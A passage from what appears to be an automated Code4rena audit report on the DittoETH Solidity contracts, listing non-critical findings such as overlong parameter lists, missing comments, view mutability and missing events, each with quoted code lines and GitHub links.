75:                     revert Errors.MustUseExistingBridgeCredit();

105:                     revert Errors.MustUseExistingBridgeCredit();

118:         uint256 unitRethTWAP = OracleLibrary.estimateTWAP(1 ether, 30 minutes, VAULT.RETH_WETH, VAULT.RETH, C.WETH);

122:         uint256 unitWstethTWAP = OracleLibrary.estimateTWAP(1 ether, 30 minutes, VAULT.WSTETH_WETH, VAULT.WSTETH, C.WETH);
```

LibBytes.sol ([12-12](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBytes.sol#L12-L12)):

```solidity
12:         bytes memory slate = SSTORE2.read(SSTORE2Pointer);
```

LibOracle.sol ([25-25](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L25-L25), [60-60](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L60-L60), [128-128](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L128-L128), [134-134](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L134-L134), [139-139](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L139-L139), [169-169](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L169-L169)):

```solidity
25:         if (address(oracle) == address(0)) revert Errors.InvalidAsset();

60:                 if (roundID == 0 || price == 0 || timeStamp > block.timestamp) revert Errors.InvalidPrice();

128:         if (invalidFetchData) revert Errors.InvalidPrice();

134:         if (twapPrice == 0) revert Errors.InvalidTwapPrice();

139:         if (wethBal < 100 ether) revert Errors.InsufficientEthInLiquidityPool();

169:         if (LibOrders.getOffsetTime() - getTime(asset) < 15 minutes) {
```

LibOrders.sol ([142-142](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L142-L142), [218-218](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L218-L218), [301-301](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L301-L301), [608-608](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L608-L608), [631-633](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L631-L633), [642-642](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L642-L642), [679-688](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L679-L688), [718-718](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L718-L718), [730-730](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L730-L730), [778-778](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L778-L778), [804-804](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L804-L804), [813-813](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L813-L813), [850-850](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L850-L850), [859-859](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L859-L859), [874-874](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L874-L874), [887-887](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L887-L887), [889-889](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L889-L889), [901-901](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L901-L901), [903-903](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L903-L903), [911-911](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L911-L911), [913-922](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L913-L922), [942-942](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L942-L942), [959-959](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L959-L959)):

```solidity
142:         uint88 eth = order.ercAmount.mulU88(order.price).mulU88(LibOrders.convertCR(order.shortOrderCR));

218:         emit Events.CreateOrder(asset, incomingOrder.addr, incomingOrder.orderType, incomingOrder.id, incomingOrder.ercAmount);

301:         emit Events.CancelOrder(asset, id, orders[asset][id].orderType);

608:                         if (highestBid.ercAmount.mul(highestBid.price) < LibAsset.minBidEth(asset).mul(C.DUST_FACTOR)) {

631:         emit Events.MatchOrder(
632:             asset, incomingOrder.addr, incomingOrder.orderType, incomingOrder.id, matchTotal.fillEth, matchTotal.fillErc
633:         );

642:         LibOrders.handlePriceDiscount(asset, matchTotal.lastMatchPrice);

679:         LibShortRecord.fillShortRecord(
680:             asset,
681:             incomingShort.addr,
682:             incomingShort.shortRecordId,
683:             status,
684:             matchTotal.fillEth,
685:             matchTotal.fillErc,
686:             Asset.ercDebtRate,
687:             Vault.dethYieldRate
688:         );

718:             matchTotal.colUsed += incomingSell.price.mulU88(fillErc).mulU88(LibOrders.convertCR(incomingSell.shortOrderCR));

730:         uint256 oraclePrice = LibOracle.getOraclePrice(asset);

778:             revert Errors.BadShortHint();

804:         uint256 timeDiff = getOffsetTime() - LibOracle.getTime(asset);

813:         uint256 savedPrice = LibOracle.getPrice(asset);

850:         revert Errors.BadHintIdArray();

859:         if (orderType == O.Cancelled || orderType == O.Matched) revert Errors.NotActiveOrder();

874:             revert Errors.NotActiveOrder();

887:         if (orderType == O.Cancelled || orderType == O.Matched) revert Errors.NotActiveOrder();

889:         uint88 eth = shortOrder.ercAmount.mulU88(shortOrder.price).mulU88(LibOrders.convertCR(shortOrder.shortOrderCR));

901:             LibShortRecord.deleteShortRecord(asset, shorter, shortRecordId);

903:             uint88 minShortErc = uint88(LibAsset.minShortErc(asset));

911:                     uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(LibOrders.convertCR(shortOrder.shortOrderCR));

913:                     LibShortRecord.fillShortRecord(
914:                         asset,
915:                         shorter,
916:                         shortRecordId,
917:                         SR.FullyFilled,
918:                         collateralDiff,
919:                         debtDiff,
920:                         Asset.ercDebtRate,
921:                         Vault.dethYieldRate
922:                     );

942:             uint256 savedPrice = LibOracle.getPrice(asset);

959:         uint256 savedPrice = LibOracle.getPrice(asset);
```

LibSRUtil.sol ([40-40](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L40-L40), [57-57](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L57-L57), [61-61](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L61-L61), [64-64](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L64-L64), [66-66](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L66-L66), [79-79](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L79-L79), [84-84](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L84-L84), [90-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L90-L90), [95-95](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L95-L95), [98-98](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L98-L98), [109-109](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L109-L109), [130-130](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L130-L130), [131-131](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L131-L131), [135-135](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L135-L135), [139-139](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L139-L139), [140-140](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L140-L140), [142-144](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L142-L144)):

```solidity
40:             bool isNotRecentlyModified = LibOrders.getOffsetTime() - updatedAt > C.YIELD_DELAY_SECONDS;

57:             if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();

61:                 LibOrders.cancelShort(asset, shortOrderId);

64:             } else if (shortRecord.ercDebt < LibAsset.minShortErc(asset)) {

66:                 LibOrders.cancelShort(asset, shortOrderId);

79:         uint256 minShortErc = LibAsset.minShortErc(asset);

84:             if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();

90:                     LibOrders.cancelShort(asset, shortOrderId);

95:                 if (shortOrder.ercAmount + shortRecord.ercDebt < minShortErc) revert Errors.CannotLeaveDustAmount();

98:             revert Errors.CannotLeaveDustAmount();

109:         uint256 recoveryCR = LibAsset.recoveryCR(asset);

130:         if (short.status == SR.Closed) revert Errors.OriginalShortRecordCancelled();

131:         if (short.ercDebt == 0) revert Errors.OriginalShortRecordRedeemed();

135:             LibOrders.cancelShort(asset, nft.shortOrderId);

139:         LibShortRecord.deleteShortRecord(asset, from, nft.shortRecordId);

140:         LibBridgeRouter.transferBridgeCredit(asset, from, to, short.collateral);

142:         uint8 id = LibShortRecord.createShortRecord(
143:             asset, to, SR.FullyFilled, short.collateral, short.ercDebt, short.ercDebtRate, short.dethYieldRate, tokenId
144:         );
```

UniswapOracleLibrary.sol ([33-33](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L33-L33), [39-39](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L39-L39), [39-39](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L39-L39), [41-41](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L41-L41), [43-43](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L43-L43), [43-43](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L43-L43), [52-52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L52-L52)):

```solidity
33:         uint160 sqrtRatioX96 = TickMath.getSqrtRatioAtTick(tick);

39:                 baseToken < quoteToken ? U256.mulDiv(ratioX192, baseAmount, 1 << 192) : U256.mulDiv(1 << 192, baseAmount, ratioX192);

39:                 baseToken < quoteToken ? U256.mulDiv(ratioX192, baseAmount, 1 << 192) : U256.mulDiv(1 << 192, baseAmount, ratioX192);

41:             uint256 ratioX128 = U256.mulDiv(sqrtRatioX96, sqrtRatioX96, 1 << 64);

43:                 baseToken < quoteToken ? U256.mulDiv(ratioX128, baseAmount, 1 << 128) : U256.mulDiv(1 << 128, baseAmount, ratioX128);

43:                 baseToken < quoteToken ? U256.mulDiv(ratioX128, baseAmount, 1 << 128) : U256.mulDiv(1 << 128, baseAmount, ratioX128);

52:         if (secondsAgo <= 0) revert Errors.InvalidTWAPSecondsAgo();
```

</details>

## [48] Use a struct to encapsulate multiple function parameters

<details>

If a function has too many parameters, replacing them with a struct can improve code readability and maintainability, increase reusability, and reduce the likelihood of errors when passing the parameters.

BidOrdersFacet.sol ([40-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L40-L47), [65-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L65-L68), [77-85](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L77-L85)):

```solidity
40:     function createBid(
41:         address asset,
42:         uint80 price,
43:         uint88 ercAmount,
44:         bool isMarketOrder,
45:         MTypes.OrderHint[] calldata orderHintArray,
46:         uint16[] calldata shortHintArray
47:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant returns (uint88 ethFilled, uint88 ercAmountLeft) {

65:     function createForcedBid(address sender, address asset, uint80 price, uint88 ercAmount, uint16[] calldata shortHintArray)
66:         external
67:         onlyDiamond
68:         returns (uint88 ethFilled, uint88 ercAmountLeft)

77:     function _createBid(
78:         address sender,
79:         address asset,
80:         uint80 price,
81:         uint88 ercAmount,
82:         bool isMarketOrder,
83:         MTypes.OrderHint[] memory orderHintArray,
84:         uint16[] memory shortHintArray
85:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {
```

ExitShortFacet.sol ([142-149](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L142-L149)):

```solidity
142:     function exitShort(
143:         address asset,
144:         uint8 id,
145:         uint88 buybackAmount,
146:         uint80 price,
147:         uint16[] memory shortHintArray,
148:         uint16 shortOrderId
149:     ) external isNotFrozen(asset) nonReentrant onlyValidShortRecord(asset, msg.sender, id) {
```

PrimaryLiquidationFacet.sol ([47-52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L47-L52)):

```solidity
47:     function liquidate(address asset, address shorter, uint8 id, uint16[] memory shortHintArray, uint16 shortOrderId)
48:         external
49:         isNotFrozen(asset)
50:         nonReentrant
51:         onlyValidShortRecord(asset, shorter, id)
52:         returns (uint88, uint88)
```

RedemptionFacet.sol ([224-228](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L224-L228)):

```solidity
224:     function disputeRedemption(address asset, address redeemer, uint8 incorrectIndex, address disputeShorter, uint8 disputeShortId)
225:         external
226:         isNotFrozen(asset)
227:         nonReentrant
228:     {
```

ShortOrdersFacet.sol ([35-42](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L35-L42)):

```solidity
35:     function createLimitShort(
36:         address asset,
37:         uint80 price,
38:         uint88 ercAmount,
39:         MTypes.OrderHint[] memory orderHintArray,
40:         uint16[] memory shortHintArray,
41:         uint16 shortOrderCR
42:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant {
```

</details>

## [49] Returning a struct instead of a bunch of variables is better

<details>

If a function returns [too many variables](https://docs.soliditylang.org/en/v0.8.21/contracts.html#returning-multiple-values), replacing them with a struct can improve code readability, maintainability and reusability.

BidOrdersFacet.sol ([40-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L40-L47), [65-68](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L65-L68), [77-85](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L77-L85), [130-135](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L130-L135), [275-280](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L275-L280)):

```solidity
40:     function createBid(
41:         address asset,
42:         uint80 price,
43:         uint88 ercAmount,
44:         bool isMarketOrder,
45:         MTypes.OrderHint[] calldata orderHintArray,
46:         uint16[] calldata shortHintArray
47:     ) external isNotFrozen(asset) onlyValidAsset(asset) nonReentrant returns (uint88 ethFilled, uint88 ercAmountLeft) {

65:     function createForcedBid(address sender, address asset, uint80 price, uint88 ercAmount, uint16[] calldata shortHintArray)
66:         external
67:         onlyDiamond
68:         returns (uint88 ethFilled, uint88 ercAmountLeft)

77:     function _createBid(
78:         address sender,
79:         address asset,
80:         uint80 price,
81:         uint88 ercAmount,
82:         bool isMarketOrder,
83:         MTypes.OrderHint[] memory orderHintArray,
84:         uint16[] memory shortHintArray
85:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

130:     function bidMatchAlgo(
131:         address asset,
132:         STypes.Order memory incomingBid,
133:         MTypes.OrderHint[] memory orderHintArray,
134:         MTypes.BidMatchAlgo memory b
135:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {

275:     function matchIncomingBid(
276:         address asset,
277:         STypes.Order memory incomingBid,
278:         MTypes.Match memory matchTotal,
279:         MTypes.BidMatchAlgo memory b
280:     ) private returns (uint88 ethFilled, uint88 ercAmountLeft) {
```

BridgeRouterFacet.sol ([156-156](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L156-L156)):

```solidity
156:     function _getVault(address bridge) private view returns (uint256 vault, uint256 bridgePointer) {
```

PrimaryLiquidationFacet.sol ([47-52](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L47-L52)):

```solidity
47:     function liquidate(address asset, address shorter, uint8 id, uint16[] memory shortHintArray, uint16 shortOrderId)
48:         external
49:         isNotFrozen(asset)
50:         nonReentrant
51:         onlyValidShortRecord(asset, shorter, id)
52:         returns (uint88, uint88)
```

UniswapOracleLibrary.sol ([11-14](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L11-L14)):

```solidity
11:     function observe(uint32[] calldata secondsAgos)
12:         external
13:         view
14:         returns (int56[] memory tickCumulatives, uint160[] memory secondsPerLiquidityCumulativeX128s);
```

</details>

## [50] Contract variables should have comments

<details>

Consider adding some comments on non-public contract variables to explain what they are supposed to do. This will help for future code reviews.

BridgeRouterFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L26-L26), [27-27](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L27-L27)):

```solidity
26:     address private immutable rethBridge;

27:     address private immutable stethBridge;
```

ExitShortFacet.sol ([26-26](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L26-L26)):

```solidity
26:     address private immutable dusd;
```

PrimaryLiquidationFacet.sol ([28-28](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L28-L28)):

```solidity
28:     address private immutable dusd;
```

</details>

## [51] Function state mutability can be restricted to view

<details>

Function state mutability can be restricted to view

LibOrders.sol ([320-326](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L320-L326), [532-537](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L532-L537)):

```solidity
320:     function _reuseOrderIds(
321:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
322:         address asset,
323:         uint16 id,
324:         uint16 prevHEAD,
325:         O cancelledOrMatched
326:     ) private {

532:     function _updateOrders(
533:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
534:         address asset,
535:         uint16 headId,
536:         uint16 lastMatchedId
537:     ) private {
```

</details>

## [52] Inconsistent spacing in comments

<details>

The comments below are in the `//x` format, which differs from the commonly used idiomatic comment syntax of `//<space>x`. It is recommended to use a consistent comment syntax throughout.

PrimaryLiquidationFacet.sol ([92](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L92)):

```solidity
92:     //PRIVATE FUNCTIONS
```

LibOrders.sol ([514](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L514)):

```solidity
514:                 //@handles moving backwards only.
```

</details>

## [53] Missing event for critical changes

<details>

Events should be emitted when critical changes are made to the contracts.

There are 13 instances:

PrimaryLiquidationFacet.sol ([122-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L122-L124)):

```solidity
122:     function _setLiquidationStruct(address asset, address shorter, uint8 id, uint16 shortOrderId)
123:         private
124:         returns (MTypes.PrimaryLiquidation memory)
```

LibBridgeRouter.sol ([21-36](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L21-L36), [198-202](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibBridgeRouter.sol#L198-L202)):

```solidity
21:     function addDeth(uint256 vault, uint256 bridgePointer, uint88 amount) internal {
22:         AppStorage storage s = appStorage();
23:         STypes.VaultUser storage VaultUser = s.vaultUser[vault][msg.sender];
24: 
25:         if (vault == VAULT.ONE) {
26:             // Only VAULT.ONE has mixed LST
27:             if (bridgePointer == VAULT.BRIDGE_RETH) {
28:                 VaultUser.bridgeCreditReth += amount;
29:             } else {
30:                 VaultUser.bridgeCreditSteth += amount;
31:             }
32:         }
33: 
34:         VaultUser.ethEscrowed += amount;
35:         s.vault[vault].dethTotal += amount;
36:     }

198:     function removeDeth(uint256 vault, uint88 amount, uint88 fee) internal {
199:         AppStorage storage s = appStorage();
200:         s.vaultUser[vault][msg.sender].ethEscrowed -= (amount + fee);
201:         s.vault[vault].dethTotal -= amount;
202:     }
```

LibOracle.sol ([149-153](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L149-L153)):

```solidity
149:     function setPriceAndTime(address asset, uint256 oraclePrice, uint32 oracleTime) internal {
150:         AppStorage storage s = appStorage();
151:         s.bids[asset][C.HEAD].ercAmount = uint80(oraclePrice);
152:         s.bids[asset][C.HEAD].creationTime = oracleTime;
153:     }
```

LibOrders.sol ([82-82](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L82-L82), [103-119](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L103-L119), [128-144](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L128-L144), [474-490](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L474-L490), [532-545](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L532-L545), [728-728](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L728-L728), [783-800](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L783-L800), [810-824](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L810-L824)):

```solidity
82:     function addBid(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {

103:     function addAsk(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {
104:         AppStorage storage s = appStorage();
105:         uint16 hintId;
106: 
107:         if (order.orderType == O.MarketAsk) {
108:             return;
109:         }
110:         uint16 nextId = s.asks[asset][C.HEAD].nextId;
111:         if (order.price < s.asks[asset][nextId].price || nextId == C.TAIL) {
112:             hintId = C.HEAD;
113:         } else {
114:             hintId = findOrderHintId(s.asks, asset, orderHintArray);
115:         }
116:         addOrder(s.asks, asset, order, hintId);
117: 
118:         s.assetUser[asset][order.addr].ercEscrowed -= order.ercAmount;
119:     }

128:     function addShort(address asset, STypes.Order memory order, MTypes.OrderHint[] memory orderHintArray) internal {
129:         AppStorage storage s = appStorage();
130:         uint16 hintId;
131:         uint16 nextId = s.shorts[asset][C.HEAD].nextId;
132:         if (order.price < s.shorts[asset][nextId].price || nextId == C.TAIL) {
133:             hintId = C.HEAD;
134:         } else {
135:             hintId = findOrderHintId(s.shorts, asset, orderHintArray);
136:         }
137: 
138:         // @dev: Only need to set this when placing incomingShort onto market
139:         addOrder(s.shorts, asset, order, hintId);
140:         updateStartingShortIdViaShort(asset, order);
141:         uint256 vault = s.asset[asset].vault;
142:         uint88 eth = order.ercAmount.mulU88(order.price).mulU88(LibOrders.convertCR(order.shortOrderCR));
143:         s.vaultUser[vault][order.addr].ethEscrowed -= eth;
144:     }

474:     function updateBidOrdersOnMatch(
475:         mapping(address => mapping(uint16 => STypes.Order)) storage orders,
476:         address asset,
477:         uint16 id,
478:         bool isOrderFullyFilled
479:     ) internal {
480:         // BEFORE: HEAD <-> ... <-> (ID) <-> NEXT
481:         // AFTER : HEAD <------------------> NEXT
482:         if (isOrderFullyFilled) {
483:             _updateOrders(orders, asset, C.HEAD, id);
484:         } else {
485:             // BEFORE: HEAD <-> ... <-> (ID)
486:             // AFTER : HEAD <---------> (ID)
487:             orders[asset][id].prevId = C.HEAD;
488:             orders[asset][C.HEAD].nextId = id;
489:         }
490:     }

532:     function _updateOrders(
